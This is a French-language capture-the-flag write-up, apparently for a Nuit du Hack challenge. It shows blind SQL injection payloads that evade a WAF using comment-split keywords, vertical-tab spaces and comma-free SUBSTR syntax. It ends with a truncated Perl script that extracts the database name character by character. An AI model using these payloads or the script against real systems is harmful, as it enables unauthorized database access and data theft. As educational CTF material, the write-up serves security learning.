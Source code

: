 ```ndh,1%2b(SELECT (CASE WHEN 1<2 THEN 1 ELSE 0 END))``` 
Première bonne  nouvelle, on peut utiliser les fonction comme SELECT en y implantant un commentaire (possible pour le WAF, et pas d'URL Rewriting) comme ceci : SEL/**/ECT.
Le deuxième problème de taille était l'absence d'espaces. On peut cependant utiliser le caractère %0b qui est un TAB vertical afin de remplacer l'espace. Ne restent plus que les virgules, et là, on est bien embêtés. Mais pourquoi ? Parce que pour réaliser une attaque par Blind SQL Injection, on a absolument besoin d'une fonction du style SUBSTRING/SUBSTR/MID, mais que celles-ci utilisent des virgules pour séparer les arguments. Oui mais il existe, également une syntaxe moins connue, qui nous permet d'éviter les virgules : SUBSTR(data from 1 for 1).
Imaginons un payload qui serait utilisé pour savoir si la version de la base de données est inférieure à 5 :  

- ```SEL/**/ECT(CASE%0BWHEN(@@version<5)THEN%0B1%0BELSE%0B0%0BEND)```  => 0  
- ```SEL/**/ECT(CASE%0BWHEN(@@version>5)THEN%0B1%0BELSE%0B0%0BEND)```  => 0  

- ```SEL/**/ECT(CASE%0BWHEN(@@version=5)THEN%0B1%0BELSE%0B0%0BEND)```  => 1 
 
Ah, victoire ! Un résultat probant ! C'est donc une version 5 de MySQL (car @@version est une syntaxe typique à ce type de DB).  
 
Passons maintenant aux choses plus sérieuses, en devinant le premier caractère de la base de données :  

- ```SEL/**/ECT(CASE%0BWHEN(SUBSTR(database()%0bFR/**/OM%0B1%0BFOR%0B1)='A')THEN%0B1%0BELSE%0B0%0BEND)``` => 0  

- ```SEL/**/ECT(CASE%0BWHEN(SUBSTR(database()%0bFR/**/OM%0B1%0BFOR%0B1)='B')THEN%0B1%0BELSE%0B0%0BEND)``` => 0  

- ```SEL/**/ECT(CASE%0BWHEN(SUBSTR(database()%0bFR/**/OM%0B1%0BFOR%0B1)='C')THEN%0B1%0BELSE%0B0%0BEND)``` => 1  

**Bingo!** On a la première lettre du nom de la DB: "C".  

Comme on n'a pas que ça à faire, chercher lettre par lettre à la main, on va écrire un exploit qui nous permettra d'automatiser tout ça:  

	#!/usr/bin/perl  
	use LWP::Simple;  
	use 5.010;  
	$| = 1;  

	my ($content, $url, $data, $juicy);  

	my $length = 40;  
	my $query = "dat/**/abase%28%29";  

	print "Found content:"  
	for my $n (1..$length) {  
		for my $c (32..126) {  
			$url = "http://z0b.nuitduhack.com:8000/index.php?article=ndh," .  
	                "1%2b%28sel/**/ect%28case%0Bwhen%28subs/**/tr%28%28" . $query . "%29%0Bfr/**/om%0B" . $n . "%0Bfor%0B1%29=char(" .  
	                $_ .  
	                ")%29%0Bthen%0B%0B1%0Belse%0B0%0BEND%29%29,fr";  
			$content = get $url;  
			if ($content =~ /soumettre/) {  
				$data = pack("U*", $c);  
				print "\nFound content:", next if ($c == 44);  
				print $data;  
				$juicy .= $data;  
				last;  
			}  
		sleep(1);  
```